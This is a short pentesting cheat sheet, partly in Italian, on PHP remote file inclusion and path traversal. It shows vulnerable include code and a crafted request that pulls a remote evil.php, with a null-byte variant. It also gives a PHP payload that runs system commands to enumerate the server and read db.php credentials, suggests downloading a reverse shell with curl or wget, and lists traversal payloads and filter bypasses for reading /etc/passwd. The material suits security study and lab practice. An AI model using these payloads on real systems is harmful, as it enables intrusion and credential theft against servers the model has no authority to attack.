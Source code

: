 
***
# RFI  

It requires allow_url_fopen=On and allow_url_include=On.
An example of vulnerable code:

```php

$incfile = $_REQUEST["file"];  
include($incfile.".php");  

```

```http
#Original
http://10.10.0.1/addguestbook.php?name=Test&comment=Which+lang%3F&LANG=FR&Submit=Submit

#Modified
http://10.10.0.1/addguestbook.php?name=Test&comment=Which+lang%3F&LANG=http://10.10.10.10./evil.php&Submit=Submit

#Se ci sono problemi con i '.php' possiamo usare un'altra estensione o un nullbyte (se permesso dalla versione < PHP_5.3) 
http:10.10.0.1/addguestbook.php?name=Test&comment=Which+lang%3F&LANG=http://10.10.10.10./evil.php%00&Submit=Submit
```

<br>
 
Se non riesco ad ottenere una revshell posso comunque eseguire codice via php caricato in remoto. A quel punto posso scaricare con curl/wget una revshell o se non ho permessi per scrivere almeno leggere i file sensibili

```php
<?php

        echo "<pre>";
        system('whoami && uname -a && ss -antlp && ls -la /var/www/html/ && cat /var/www/html/db.php');
        echo "</pre>";
        die;

?>

```

Vedere anche [[Post Exploitaton/File Download]]
***
# Common Issues

Just the path  
```
filename=/etc/passwd
```
Stripped non recursive  
```
filename=....//....//....//etc/passwd
```
Encoding  
```
filename=..%252f..%252f..%252fetc/passwd
```
Validation of start path
```
filename=/var/www/images/../../../etc/passwd
```